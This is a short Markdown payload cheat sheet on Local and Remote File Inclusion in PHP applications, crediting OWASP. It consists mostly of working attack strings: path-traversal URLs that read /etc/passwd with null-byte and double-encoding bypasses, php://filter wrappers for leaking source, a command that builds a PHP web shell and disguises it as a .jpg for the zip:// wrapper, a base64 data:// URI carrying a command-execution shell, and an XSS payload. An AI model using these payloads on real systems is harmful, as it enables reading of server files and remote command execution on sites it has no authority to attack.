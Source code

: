 # Local/Remote File Inclusion
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application.

## Exploit

Basic LFI (null byte and double encoding)
```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
```

LFI Wrapper rot13 and base64
```
php://filter/read=string.rot13/resource=
php://filter/convert.base64-encode/resource=
```

LFI Wrapper zip
```python
os.system("echo \"</pre><?php system($_GET['cmd']); ?></pre>\" > payload.php; zip payload.zip payload.php; mv payload.zip shell.jpg; rm payload.php")
				
zip://shell.jpg%23payload.php
```


RFI Wrapper with "<?php system($_GET['cmd']);echo 'Shell done !'; ?>" payload
```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```


XSS via RFI/LFI with "<svg onload=alert(1)>" payload
```
data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

## Thanks to
* https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion